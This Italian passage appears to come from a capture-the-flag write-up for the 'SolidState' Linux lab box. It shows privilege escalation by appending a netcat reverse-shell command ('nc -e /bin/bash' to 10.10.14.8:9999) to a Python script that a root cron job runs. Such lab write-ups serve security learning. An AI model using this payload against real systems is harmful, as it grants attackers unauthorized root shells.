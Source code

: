 <p align="center">
  <img src="/Immagini/Linux-Box/SolidState/solidstate-6.png" />
</p>

Quindi cambio il conenuto del file per creare una reverse shell con privilegi root:

```text
echo "os.system('/bin/nc -e /bin/bash 10.10.14.8 9999')" >> /opt/tmp.py
```

Avvio un listener e attendo l'esecuzione del cron job.

**Dopo qualche minuto sono root!**

<p align="center">
  <img src="/Immagini/Linux-Box/SolidState/solidstate-7.png" />
</p>
